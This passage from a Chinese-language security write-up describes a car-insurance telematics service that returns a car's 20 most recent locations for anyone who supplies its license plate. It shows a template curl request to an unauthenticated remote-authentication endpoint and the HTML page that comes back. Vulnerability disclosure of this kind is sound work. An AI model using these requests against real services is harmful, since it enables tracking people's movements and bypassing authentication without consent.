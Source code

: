 没有header头，没有cookie，没有授权认证？！

没错，你的猜想是对的。你只要有私家车的license许可证，就可以存取该私家车的20个最近到访地点。那&lt;another_code&gt;有什麽用途，我将会在下文解译。

我一开始以为，伺服器储存了我的IP地址，并授权了我的IP地址可储存该私家车的地点数据。但是，我尝试使用VPN连接伺服器，居然也能成功存该私家车的地点数据。

然後，我尝试输入不存在的私家车license许可证，得到以下响应：

```
-2§TARGA NON ASSOCIATA%
```

这表示：数据库没有该私家车的license许可证

那麽我们如何获得其他私家车的license许可证，这很容易实现。所有的私家车license许可证都储存在保险公司的数据库，而且这些数据还包括了该车最近到访过的20个地点。

<br>

**网页客户端**

汽车保险公司还提供了网页端，这网页端提供了更多功能给用户。我登入了网页并开始分析，发现网页有几个不同的域名，并且在任何请求响应中，都会使用到用户的cookie。有一个请求响应值得我关注的，是该请求响应不需要任何认证

```
curl http://&lt;domain&gt;/&lt;company&gt;/(S(&lt;uuid&gt;))/NewRemoteAuthentication.aspx?RUOLO=CL&amp;ID=&lt;another_code&gt;&amp;TARGA=&lt;car_license&gt;&amp;CONTRATTO=&lt;foo&gt;&amp;VOUCHER=&lt;bar&gt;
```

在伺服器请求响应後，网页客户端显示的HTML页面：



```
&lt;!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN" &gt;
&lt;HTML&gt;
&lt;HEAD&gt;
    &lt;title&gt;NewRemoteAuthentication&lt;/title&gt;
    &lt;meta name="GENERATOR" Content="Microsoft Visual Studio .NET 7.1" /&gt;
    &lt;meta name="CODE_LANGUAGE" Content="C#" /&gt;
    &lt;meta name="vs_defaultClientScript" content="JavaScript"/&gt;
    &lt;meta name="vs_targetSchema" content="http://schemas.microsoft.com/intellisense/ie7" /&gt;
        &lt;!--&lt;meta content="IE=EmulateIE10" name="ie_compatibility" http-equiv="X-UA-Compatible" /&gt;--&gt;
        &lt;meta name="ie_compatibility" http-equiv="X-UA-Compatible" content="IE=7, IE=8, IE=EmulateIE9, IE=10, IE=11" /&gt;
&lt;/HEAD&gt;
    &lt;body&gt;
    &lt;form name="Form1" method="post" action="/&lt;company&gt;/(S(&lt;uuid&gt;))/NewRemoteAuthentication.aspx?RUOLO=CL&amp;amp;ID=&lt;another_code&gt;&amp;amp;TARGA=&lt;car_license&gt;" id="Form1"&gt;
&lt;input type="hidden" name="__VIEWSTATE" id="__VIEWSTATE" value="/wEPDwULLTIwNzEwODIsJFNAgEPKAJDIeBsdSpc2libGVnZGRic5McHC9+DqRx0H+jRt5O+/PLtw==" /&gt;
            &lt;iframe id="frm1" src="NewRicerca.aspx" width="100%" height="100%"&gt;&lt;/iframe&gt;
&lt;SCRIPT language="JavaScript"&gt;
&lt;!--
self.close
// --&gt;
&lt;/SCRIPT&gt;
&lt;/form&gt;
&lt;/body&gt;
&lt;/HTML&gt;
```
